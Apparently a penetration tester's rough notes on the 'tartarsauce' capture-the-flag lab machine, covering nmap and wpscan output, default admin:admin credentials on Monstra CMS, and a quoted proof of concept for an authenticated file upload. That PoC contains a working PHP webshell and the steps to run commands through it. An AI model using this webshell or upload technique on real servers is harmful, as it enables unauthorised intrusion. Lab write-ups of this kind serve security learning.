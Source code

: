 # Recon

## nmap
I do my initial scan to see which ports are open.

```
# Nmap 7.92 scan initiated Tue Jul 19 17:34:35 2022 as: nmap -p- -oA first/scan --min-rate 5000 --max-retries 3 --stylesheet https://raw.githubusercontent.com/honze-net/nmap-bootstrap-xsl/master/nmap-bootstrap.xsl -vv tartarsauce.htb
Nmap scan report for tartarsauce.htb (10.129.73.76)
Host is up, received echo-reply ttl 63 (0.070s latency).
Scanned at 2022-07-19 17:34:35 CDT for 22s
Not shown: 64991 closed tcp ports (reset), 543 filtered tcp ports (no-response)
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
# Nmap done at Tue Jul 19 17:34:57 2022 -- 1 IP address (1 host up) scanned in 22.53 seconds
```

Our first scan only returns port 80 which is slightly unusual as I would at least expect port 22 open. Before I run the next beefier nmap scan, I do a udp scan on all ports just to make sure I am not missing anything.

```
# Nmap 7.92 scan initiated Tue Jul 19 17:35:19 2022 as: nmap -oA main/scan -sV -sC --min-rate 5000 --max-retries 3 --stylesheet https://raw.githubusercontent.com/honze-net/nmap-bootstrap-xsl/master/nmap-bootstrap.xsl -vv -p80 tartarsauce.htb
Nmap scan report for tartarsauce.htb (10.129.73.76)
Host is up, received echo-reply ttl 63 (0.062s latency).
Scanned at 2022-07-19 17:35:20 CDT for 8s

PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 5 disallowed entries 
| /webservices/tar/tar/source/ 
| /webservices/monstra-3.0.4/ /webservices/easy-file-uploader/ 
|_/webservices/developmental/ /webservices/phpmyadmin/
|_http-title: Landing Page
|_http-server-header: Apache/2.4.18 (Ubuntu)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jul 19 17:35:28 2022 -- 1 IP address (1 host up) scanned in 8.84 seconds
```


no wfuzz subdomains
fuzz -c -u http://tartarsauce.htb -H "Host: FUZZ.tartarsauce.htb" -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt --hw 128 | tee subdomains.out

![2c1401b74fae95323a2f89a1c34923b4.png](../_resources/2c1401b74fae95323a2f89a1c34923b4.png)

Plugins request?
![b90e714e5f972707cc150261e1d278e1.png](../_resources/b90e714e5f972707cc150261e1d278e1.png)

![c484c586ed6aa4362fdf3d9b70eb0a6d.png](../_resources/c484c586ed6aa4362fdf3d9b70eb0a6d.png)

admin:admin

api calls to Monstra.org
![2f908b910807241209a397a29793c325.png](../_resources/2f908b910807241209a397a29793c325.png)

"Monstra is a modern and lightweight Content Management System.
It is Easy to install, upgrade and use."

authenticated file upload monstra
![7c008932099843b471bf18a3c58bf0d9.png](../_resources/7c008932099843b471bf18a3c58bf0d9.png)

POC
```
proof of Concept
Steps to Reproduce:

1. Login with a valid credentials of an Editor
2. Select Files option from the Drop-down menu of Content
3. Upload a file with PHP (uppercase)extension containing the below code: (EDB Note: You can also use .php7)

           <?php

 $cmd=$_GET['cmd'];

 system($cmd);

 ?>

4. Click on Upload
5. Once the file is uploaded Click on the uploaded file and add ?cmd= to
the URL followed by a system command such as whoami,time,date etc.
```

webshell
![d10597afbb291e396766c249aa4ad40b.png](../_resources/d10597afbb291e396766c249aa4ad40b.png)

![e8ea1c2af02b164454b9822781d009d9.png](../_resources/e8ea1c2af02b164454b9822781d009d9.png)

![3fbe4168eb639646ef201d8cfb7bfad6.png](../_resources/3fbe4168eb639646ef201d8cfb7bfad6.png)

![acd75a5e86ab7e21ae8a6444e5969256.png](../_resources/acd75a5e86ab7e21ae8a6444e5969256.png)

![4d4ee446a4e82f6d0c0b24bf512cc79a.png](../_resources/4d4ee446a4e82f6d0c0b24bf512cc79a.png)

![cba4c19fa7d2849957b15568534516fa.png](../_resources/cba4c19fa7d2849957b15568534516fa.png)

![edec8b6f55015c0c485b2c0607aa5cc4.png](../_resources/edec8b6f55015c0c485b2c0607aa5cc4.png)

![51606385cb0e444dbe8048aef839624d.png](../_resources/51606385cb0e444dbe8048aef839624d.png)

http://tartarsauce.htb/webservices/wp/wp-login.php

![82b717813d67e690d468eacd21a01a57.png](../_resources/82b717813d67e690d468eacd21a01a57.png)

nothing really from `wpscan`

```
[+] WordPress version 4.9.4 identified (Insecure, released on 2018-02-06).
 | Found By: Atom Generator (Aggressive Detection)
 |  - http://tartarsauce.htb/webservices/wp/index.php/feed/atom/, <generator uri="https://wordpress.org/" version="4.9.4">WordPress</generator>
 | Confirmed By: Style Etag (Aggressive Detection)
 |  - http://tartarsauce.htb/webservices/wp/wp-admin/load-styles.php, Match: '4.9.4'
 ```
 
 ![1cedec794b933e30a1411629c34dd233.png](../_resources/1cedec794b933e30a1411629c34dd233.png)
 
 TODO: more enumeration
 
 